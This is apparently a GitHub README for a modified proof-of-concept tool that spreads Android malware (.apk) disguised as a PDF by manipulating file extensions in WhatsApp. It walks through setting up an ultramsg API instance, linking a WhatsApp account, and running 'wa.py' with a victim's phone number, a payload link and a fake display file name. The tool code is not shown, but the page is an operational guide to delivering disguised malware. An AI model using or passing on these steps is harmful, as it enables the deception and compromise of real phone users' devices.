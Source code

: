 # WhatsApp-extension-manipulation

This is a modified version of the original project by [0x6rss](https://github.com/0x6rss/WhatsApp-extension-manipulation-PoC), licensed under the MIT License.<br>

Android malware (.apk) can be spread through a fake PDF document by manipulating the file extension in the WhatsApp application. PoC is available in this repo


<source src="" type="video/mp4">

### Step 1: First, create a free account at [ultramsg](https://user.ultramsg.com/signup.php). We will use this to manage the API

### Step 2: Click the "Add Instance" button and create a new instance. <br>
<img src=".resources/R001.jpg "/> <br>


### Step 3: Log in to your WhatsApp application using the QR code found under the instance information. <br>
<img src=".resources/R002.jpg "/> <br>

### Step 4: Configuration token and API URL
```sh
python3 wa.py -t <token> -u <api url>
```
#### Show this help message
```sh
python3 wa.py -h 
```
###  To manually input one by one, type wa.py and run.
```sh
python3 wa.py
```
```sh
python3 wa.py -n <victim number> -d <payload, script link> -f <File name you want display>
```
## Disclaimer

This software is provided "as is", without warranty of any kind, express or implied, including but not limited to the warranties of merchantability, fitness for a particular purpose, and noninfringement. In no event shall the authors or copyright holders be liable for any claim, damages, or other liability, whether in an action of contract, tort, or otherwise, arising from, out of, or in connection with the software or the use or other dealings in the software.


## License

This project continues to be licensed under the [MIT License](https://github.com/0x6rss/WhatsApp-extension-manipulation-PoC/blob/main/LICENSE).

Original copyright:
© 2024 0x6rss

Modifications:
© 2025 Recluse-X

